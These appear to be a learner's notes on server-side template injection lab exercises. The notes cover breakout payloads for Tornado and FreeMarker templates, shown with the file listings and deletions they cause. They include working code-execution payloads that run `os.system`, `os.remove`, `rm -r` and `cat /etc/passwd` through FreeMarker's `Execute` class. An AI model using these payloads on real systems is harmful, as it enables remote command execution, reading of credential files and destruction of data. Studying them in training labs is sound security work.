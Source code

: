 ![[identify the template.png]]
- the syntax code in the tornado template ==> {{user.nickname}}
- it is using python syntax in the code and the template syntax is:
	-   `{{` - Used to mark the start of a print statement
	-   `}}` - Used to mark the end of a print statement
	-   `{%` - Used to mark the start of a block statement
	-   `%}` - Used to mark the end of a block statement

- Check out this: https://www.tornadoweb.org/en/stable/template.html

* In the server side will take and compile the code as this will open 2 {{ then will take the value from the parameter and close with 2 }}
*  it will compile this code in order.

* I will do in order as the server but i will inject my payload:
 
{{user.nickname......................i..will..inject..here...........................}}
                            }}{%import os%}{{os.system('ls /home/carlos')

* Then the server will close the }} automatically.

###### my payload ==> `}}{%import os%}{{os.system('ls /home/carlos')`

* The final form with payload after injecting in the server side it will seem like that:
> `{{user.name`  }}{%25import+os%25}{{os.system('ls') `}}`


> user.name}}{%25import+os%25}{{os.system('ls+/home')
> 
> >> carlos elmer install peter user Peter Wiener0

I removed the file with this method ==> remove(file_path)
>}}{%25import+os%25}{{os.remove("/home/carlos/morale.txt")
 another payload:
 }}{%25import+os%25}{{os.system("rm -r /home/carlos/morale.txt")

-----------------------------------------------------------------------
-----------------------------------------------------------------------

## Lab3: SSTI using documentation

- As usual, i tried to cause any errors in the template:
     - i have seen this formt `${.....}` then i edited it to ${foobar}
     
![[Server_side_template_injection_using_documentation.png]]
![[freemarker template.png]]
- from the error message, i have known it is a freemarker template.

> <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}

<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("cat /etc/passwd")}

<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("ls /home/carlos")}

<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm -r  /home/carlos/morale.txt")}
